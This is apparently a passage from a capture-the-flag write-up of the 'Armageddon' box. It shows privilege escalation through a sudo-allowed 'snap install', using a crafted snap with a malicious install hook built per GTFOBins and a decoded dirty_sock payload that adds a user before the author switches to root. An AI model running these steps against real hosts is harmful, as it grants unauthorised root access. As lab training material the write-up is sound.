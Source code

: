
I knew that the user was able to exploit `snap install` so I searched in GTFO Bins and came across the following: <https://gtfobins.github.io/gtfobins/snap/>.

The code below is meant to run commands using a specially crafted Snap package. Generate it with fpm and upload it to the target.

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n x -s dir -t snap -a all meta
```

From there, it can be exploited using the following command:

```bash
sudo snap install x_1.0_all.snap --dangerous --devmode
```

However, fpm was not installed on the host. I continued enumerating and 

```bash
[brucetherealadmin@armageddon ~]$ snap version
snap    2.47.1-1.el7
snapd   2.47.1-1.el7
series  16
centos  7
kernel  3.10.0-1160.6.1.el7.x86_64
```

A simple searchsploit search showed two potential "dirty_sock" exploits. Looking at the code, it contained a ShellCode function which did the following:

> The following global is a base64 encoded string representing an installable snap package. The snap itself is empty and has no functionality. It does, however, have a bash-script in the install hook that will create a new user.

So, theoretically, that should create a new user with the following credentials:
* username: dirty_sock
* password: dirty_sock

I created a `.snap` file by decoding the Shell Code using the following command:

``` 
echo -n 'SHELL_CODE' |base64 -d > evil.snap
```

From there, I simply installed the package and authenticated as the root user with the following commands:

```bash
sudo /usr/bin/snap install --dangerous --devmode /tmp/evil.snap
su dirty_sock
sudo su
```

<p class="imgMiddle">
